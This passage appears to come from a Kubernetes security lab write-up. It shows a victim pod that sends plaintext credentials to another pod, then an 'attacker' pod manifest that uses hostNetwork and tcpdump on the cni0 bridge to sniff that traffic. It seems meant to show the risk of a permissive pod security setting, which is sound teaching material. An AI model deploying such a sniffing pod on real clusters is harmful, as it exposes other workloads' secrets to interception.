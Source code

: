 ```yaml
```

On victim1 we have a python server:
```bash
root@victim1:/# netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      1/python3

root@victim1:/# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1450
        inet 10.42.2.60  netmask 255.255.255.0  broadcast 10.42.2.255
        inet6 fe80::8420:9aff:fe6f:b378  prefixlen 64  scopeid 0x20<link>
        ether 86:20:9a:6f:b3:78  txqueuelen 0  (Ethernet)
        RX packets 26414  bytes 38519569 (38.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 11444  bytes 881368 (881.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

On victim2 we will periodically send post requests with secret data to out victim1
```yaml
victim2.yml
apiVersion: v1
kind: Pod
metadata:
  name: victim2
  namespace: vuln-psa-ns
spec:
  containers:
  - name: victim2
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "apt update && DEBIAN_FRONTEND=noninteractive apt install -y curl; while true; do curl -H 'Content-Type: application/json' -d '{ \"admin\":\"admin\", \"password\":\"Sup3r_S3cr3t\" }' -X POST victim1:8080; sleep 2; done" ]
  nodeName: worker
```

And now the attacker:
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker
  namespace: vuln-psa-ns
spec:
  hostNetwork: true
  containers:
  - name: attacker
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "apt update && DEBIAN_FRONTEND=noninteractive apt install -y tcpdump; tcpdump -i cni0 -A -s 0 'tcp port 8080'" ]
  nodeName: worker
```
